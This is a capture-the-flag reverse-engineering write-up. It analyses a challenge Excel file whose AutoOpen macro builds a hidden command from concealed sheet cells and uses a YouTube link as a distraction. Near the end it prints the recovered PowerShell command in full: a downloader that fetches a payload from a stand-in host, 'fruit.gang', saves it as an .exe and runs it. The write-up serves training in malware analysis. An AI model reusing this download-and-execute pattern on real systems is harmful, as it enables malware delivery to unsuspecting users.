









# Fruit Deals - Reverse Engineering Writeup

## Description:


I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

## Solution:
### Step 1:

On the initial load of the spreadsheet, It warned me saying that it was unable to find deals and the popup to enable macros

After opening up VB Editor, the first thing I noticed was the Sheets listed on the editor didn't match what was being shown on the main UI 



After Enabling the hidden sheets, I was greeted with this awful mess.




### Step 2:
In summary, the script appears to be dynamically constructing a command based on values in the Excel spreadsheet, executing the command, and then opening a specified YouTube link in the web browser which is most likely designed to move the end users' attention away from what the script is doing. 

Upon examining the code within the AutoOpen Macro, it initializes several variables and scans different cells within Sheet 2 for particular values. 
Depending on these values, specific strings are appended with corresponding values, ultimately forming a command ('f') by manipulating strings.



### Step 3:

To find out what the script is doing in the background, I briefly looked at what is being appended and saw some strings that stand out which was ```Invok``` ```http``` ```K.Dow``` and ```nload```




### Step 4:

To read the output, I just need to add a breakpoint on the line 
```
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
```


After opening up the variable viewer, I can see the strings and their values, which shows the script to be executed and the flag is appended to the $CNTA variable. 



### Executed Command: 
```powershell 
f = "poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';
$CNTA = 'banANA-Hakrz09182afd4';
$jri=$env:public+''+$CNTA+'.exe';
try{
  $oaK.DownloadFile($OrA, $jri);
  Invoke-Item $jri;
  break;
} catch {} ""
```

## Flag: utflag{banANA-Hakrz09182afd4.exe}
